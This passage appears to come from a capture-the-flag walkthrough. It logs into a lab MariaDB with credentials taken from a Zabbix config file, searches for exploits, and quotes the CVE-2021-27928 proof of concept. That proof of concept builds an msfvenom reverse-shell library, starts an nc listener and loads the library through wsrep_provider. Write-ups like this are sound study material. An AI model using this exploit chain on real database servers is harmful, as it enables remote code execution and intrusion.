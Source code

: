 ```
StatsAllowedIP=127.0.0.1
```

Let's try connecting to mysql running on port `3306` with the credentials `zabbix:bloooarskybluh`. The database name is also `zabbix`, as shown in the `zabbix_server.conf` file.


### MariaDB

Connect to mysql with `mysql -D zabbix -u zabbix -p` and then enter the password `bloooarskybluh`.

The version string for the instance of MariaDB that is running is `10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04`. We can use `searchsploit mariadb 10` to see if there are any exploits:

```
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
MariaDB 10.2 - 'wsrep_provider' OS Command Execution                    | linux/local/49765.txt
MariaDB Client 10.1.26 - Denial of Service (PoC)                        | linux/dos/45901.txt
Oracle MySQL / MariaDB - Insecure Salt Generation Security Bypass       | linux/remote/38109.pl
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

We can look at the first exploit with `cat /usr/share/exploitdb/exploits/linux/local/49765.txt`:

```
# Exploit Title: MariaDB 10.2 /MySQL - 'wsrep_provider' OS Command Execution
# Date: 03/18/2021
# Exploit Author: Central InfoSec
# Version: MariaDB 10.2 before 10.2.37, 10.3 before 10.3.28, 10.4 before 10.4.18, and 10.5 before 10.5.9; Percona Server through 2021-03-03; and the wsrep patch through 2021-03-03 for MySQL
# Tested on: Linux
# CVE : CVE-2021-27928

# Proof of Concept:

# Create the reverse shell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so

# Start a listener
nc -lvp <port>

# Copy the payload to the target machine (In this example, SCP/SSH is used)
scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so

# Execute the payload
mysql -u <user> -p -h <ip> -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```

Searching online finds the same exploit in this repo on GitHub: [Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928).
